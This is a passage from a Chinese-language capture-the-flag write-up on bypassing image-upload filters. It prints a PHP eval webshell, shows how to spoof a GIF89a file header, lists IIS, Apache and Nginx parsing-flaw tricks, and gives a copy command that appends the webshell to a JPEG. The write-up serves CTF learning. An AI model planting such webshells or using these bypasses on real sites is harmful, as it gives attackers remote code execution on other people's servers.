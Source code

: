 *   https://github.com/rebeyond/Behinder
    

2. 图片一句话
--------

(1) 题目分析  
由于该题只能上传图片文件，我们想到的是图片一句话木马。针对该网站，如果我们直接上传 “ma01.php” 文件它会提示 “You can’t upload this kind of file!” 错误，这是因为它指定了图片文件格式。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcRsaJXMuDQJkGAgRYg0oYefG8MAYHZAEX1ceyC9X0k9iau0VYJDUSZEA/640?wx_fmt=png)

而当我们上传图片 “mm.jpg” 时，它就能成功上传，并且查看图片如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcFkot5SuwI9A8z7GYOs21yKz76SAhnWsOTSksyQia2EoN0SxD2B2mhzg/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcKV8ician10n9zoqNPuKnCktxKBxJicMn1YlMWDPQfFY2HpwZLOowFqoSg/640?wx_fmt=png)

(2) 网站内容检查  
内容检查是网站安全的重要手段之一。假设我们将包含一句话木马的 “fox.php” 修改为 “1.jpg” 并上传，有的网址会提示上传错误，因为 JPG 格式不能执行 PHP 文件脚本的。

```
<?php eval($_POST[fox]); ?>
```

如下图所示，它会判断图片的文件头，包括 gif、png、jpg 等格式。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcepwsVXpTiaTeOlq57ef5KibicwNbexP1AickiadCOd44YWB5Qz6ulTAvCJg/640?wx_fmt=png)

文件头是用来判断数据格式的，这里尝试修改文件头进行上传，以 gif 文件为例，添加文件头 “GIF89a” 后即可上传成功。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcKibLapyFkiaib9WLHWqpCKyt8CV0RMImHDMOh6xPQ4ibeibQfdqnypb9RmA/640?wx_fmt=png)

同样可以尝试 BurpSuite 抓包修改文件后缀. php 进行上传，后面会详细讲解。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcUq0RVzSZsEnMrpWwwGH9m39wpYFFl75TvzKteq1zHhzvtdt7qPl5SQ/640?wx_fmt=png)

(3) 暂定解题思路  
由于该题有检测文件的 content-type，我们可以准备一张很小的图片，比如画图中新建一个像素的 jpg，然后往里面添加 shell 到图片尾部。同时，该题仅检测文件头，而没检测图片是否能正常使用，所以图片几十个字节也够用。

接下来还需要让网站按 PHP 后缀来解析，这又涉及到解析漏洞。比如 IIS 的服务器会把诸如 1.asp;1.jpg 以 asp 来解析，虽然后缀本质是 jpg；旧版的 Apache 可以上传 1.php.xxx 文件，只要 xxx 对容器来说不是动态脚本不能解析，它就会往左边逐个解析，直到遇到 php 就解析了；还有旧版的 Ngnix 可以上传 shell.jpg，然后访问 shell.jpg/1.php 或者 shell.jpg%00.php 都可以用 php 来解析 jpg 文件。这些都是需要用到网站容器、系统、环境的缺陷或者漏洞。

(4) 图片一句话木马制作  
某些网站上传文件时，会检查你上传文件的头目录，如果你的一句话木马是放在 PHP 文件中，它很容易被识别出来。这个时候图片一句话木马的作用就体现出来了。在 CMD 中直接运行，如下图所示，它是在 mm.jpg 图片中插入 mm01.php 中的一句话木马 “<?php eval($_POST[whuctf]); ?>” ，并存储为 mm-ma01.jpg 图片，其中 b 表示二进制，a 表示 ascii 编码。

```
copy mm.jpg/b+ma01.php/a mm-ma01.jpg
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcKugFzXgZvBiant0gxCte4jyTQQ8IicGMBUXQlhqSUOX7XCRxicQp3hg6Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcAkq5BDHIiaFr8y5Wf1DhfXDuicwo4ib3tFiaicG0yhHdA7AUkWfABxYsAyQ/640?wx_fmt=png)

